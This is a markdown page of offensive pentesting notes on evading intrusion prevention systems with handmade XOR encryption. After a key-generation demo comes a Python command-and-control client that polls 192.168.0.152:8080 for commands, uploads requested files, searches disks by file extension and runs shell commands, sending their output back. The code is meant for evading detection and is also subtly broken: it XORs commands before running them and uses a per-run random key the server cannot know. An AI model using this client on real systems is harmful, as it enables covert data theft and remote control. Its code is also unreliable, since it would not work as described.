 ```yaml
---
title: Bypassing IPS with handmade XOR Encryption
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - ips
  - xor encryption
---
```


# Bypassing IPS with handmade XOR Encryption

The idea is to encrypt our traffic to avoid network analyzers or intrusion prevention sensors. SSL or SSH is not recommended here since Next Generation Firewalls have the ability to decrypt them and pass it as plain text to the IPS, where it will be recognized.

- Create a secret key of 1Kb that matches the size of the socket, to make a XOR operation to encrypt the message


```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


# The random and string libraries are used to generate a random string with flexible criteria
import string
import random


# Random Key Generator
key = ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(0, 1024))


print(key)

print ("\n" + "Key length = " + str(len(key)))

message = 'ipconfig'
print("Msg: " + message + '\n')


# here i defined a dedicated function called str_xor, we will pass two values to this fucntion, the first value is the message(s1) that we want to encrypt or decrypt, and the second paramter is the xor key(s2). We were able to bind the encryption and the decryption phases in one function because the xor operation is exactly the same when we encrypt or decrpyt, the only difference is that when we encrypt we pass the message in clear text and when we want to decrypt we pass the encrypted message


def str_xor(s1, s2):
    return "".join([chr(ord(c1) ^ ord(c2)) for (c1, c2) in zip(s1,s2)])


# first we split the message and the xor key to a list of character pair in tuples format >>  for (c1,c2) in zip(s1,s2)

# next we will go through each tuple, and converting them to integer using (ord) function, once they converted into integers we can now perform exclusive OR on them  >>  ord(c1) ^ ord(c2)

# then convert the result back to ASCII using (chr) function  >>  chr(ord(c1) ^ ord(c2))
# last step we will merge the resulting array of characters as a sequqnece string using >>>  "".join function 

enc = str_xor(message, key)

print("Encrypted message is " + "\n" + enc + "\n")

dec = str_xor(enc, key)
print("Decrypted message is " + "\n" + dec + "\n")

```



To integrate XOR encryption into [this client side Python script](coding-a-reverse-shell-that-searches-files.md), you can modify the script to encrypt and decrypt the communication between the client and the server using the XOR encryption algorithm.

Here is an example of how to modify the script to incorporate XOR encryption:

```python
import string
import random
import requests
import os
import subprocess
import time

# Random Key Generator
key = ''.join(random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits + '^!\$%&/()=?{[]}+~#-_.:,;<>|\\') for _ in range(0, 1024))

# Define XOR function
def str_xor(s1, s2):
    return "".join([chr(ord(c1) ^ ord(c2)) for (c1, c2) in zip(s1,s2)])

while True:
    # Send GET request to C&C server to get command
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    
    # If command is to terminate, break out of loop
    if 'terminate' in command:
        break
    
    # If command is to grab a file and send it to the C&C server
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            filer = {'file': open(path, 'rb')}
            r = requests.post(url, files=filer)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    
    # If command is to search for files with a specific extension
    elif 'search' in command:
        # Split command into path and file extension
        command = command[7:] #cut off the the first 7 character ,, output would be  C:\\*.pdf
        path, ext = command.split('*')
        lists = '' # here we define a string where we will append our result on it
        
        # Walk through directories and search for files with specified extension
        for dirpath, dirname, files in os.walk(path):
            for file in files:
                if file.endswith(ext):
                    lists = lists + '\n' + os.path.join(dirpath, file)
        requests.post(url='http://192.168.0.152:8080', data=lists)
    
    # If command is a shell command, execute it and send output to the C&C server
    else:
        # Encrypt command with XOR key
        enc = str_xor(command, key)
        
        # Execute encrypted command and capture stdout and stderr
        CMD = subprocess.Popen(enc, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=str_xor(CMD.stdout.read(), key))
        post_response = requests.post(url='http://192.168.0.152:8080', data=str_xor(CMD.stderr.read(), key))
    
    time.sleep(3)

```